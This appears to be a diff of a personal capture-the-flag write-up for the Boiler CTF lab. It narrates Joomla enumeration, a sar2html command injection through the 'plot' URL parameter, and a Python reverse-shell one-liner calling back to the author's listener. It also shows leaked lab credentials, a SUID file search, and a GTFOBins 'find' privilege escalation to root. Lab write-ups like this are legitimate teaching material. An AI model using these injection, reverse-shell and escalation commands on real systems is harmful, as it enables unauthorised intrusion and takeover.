

Before and after one commit to 0xt1m/ctf, a Markdown page: BoilCTF/report.md, the part around the change printed below. Shown: that part at 80% size. Drawn GitHub-style; pictures changed too: BoilCTF/imgs/sar2html.png (added); blank space fills up the shorter version; grey boxes are pictures that could not be loaded.

Commit message:
almost fininshed boiler ctf

````diff
--- a/BoilCTF/report.md
+++ b/BoilCTF/report.md
@@ -33,19 +33,55 @@ MYSQL_DATABASE: joomla_ut
      MYSQL_ROOT_PASSWORD: joomla_ut
 ```
 
+I even tried to use Joomla scaner, but didn't find anything useful.
+```
 Joomla version is: 3.9.12
 
 > Joomla! Core 1.5.0 - 3.9.4 - Directory Traversal / Authenticated Arbitrary File Deletion
 > Joomla! 3.9.0 < 3.9.7 - CSV Injection
+```
 
+Also I spent a lot of time visiting all the folders, which was a really bad idea. Some interesting stuff that I found there, even though they were not useful at all.
 tests/codeception/\_support/Shared/UserCredentials.php
-
+```
 http://boilctf.thm/joomla/media/editors/
 
-```
 codemirror/
 none/
 tinymce/
 ```
 
+After some time, I realized that I need another tactic. I remembered that there was some weird thing on the _\_test_ page. So I went there.
+![sar2html](./imgs/sar2html.png)
+Then I googled sar2html exploit and found what I needed. It turns out that to exploit the thing we just need to change the url a little bit.<br>
+This is a good url which supposed to give us something whatever.<br>
+http://boilctf.thm/joomla/_test/index.php?plot=LINUX<br>
+But if we change it to:
+http://boilctf.thm/joomla/_test/index.php?plot=;whoami and click on the Select Host button<br>
+we get some additional result there, which is a response to our command:
+![whoami](./imgs/whoami)
+
+I set up an _nc_ listener on port *2222* and used a simple python reverse-shell which I found on the internet. Therefore, eventually my url looked like this:<br>
+```
+http://boilctf.thm/joomla/_test/index.php?plot=;python3 -c 'import os,pty,socket;s=socket.socket();s.connect(("10.2.116.12",2222));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("sh")'
+```
+
+And at this point we got a reverse-shell. Here is the contents of the _log.txt_ file that was in the folder.
 ![log.txt](./imgs/log.txt.png)
+So we got usernames and password there.
+username: _basterd_<br>
+username: _pentest_<br>
+password: _superduperp@$$_<br>
+**But that actually doesn't matter :)**<br>
+
+I used this command to search for files on the system with the setuid (SUID) permission bit set for the owner.
+```
+find / -perm -u=s -type f 2>/dev/null
+```
+There were many files, but the more experience you have the more you understand which files you should look for. So the interesting executable for me was _find_.
+I went to https://gtfobins.github.io/gtfobins/find/ and found that I can escalate my privileges with this command:
+```
+find . -exec /bin/sh -p \; -quit
+```
+So I excuted it and got root.
+
````
Also changed, not shown: other parts of BoilCTF/report.md (+10 -0 lines), BoilCTF/imgs/whoami.png (added), 1 other file.
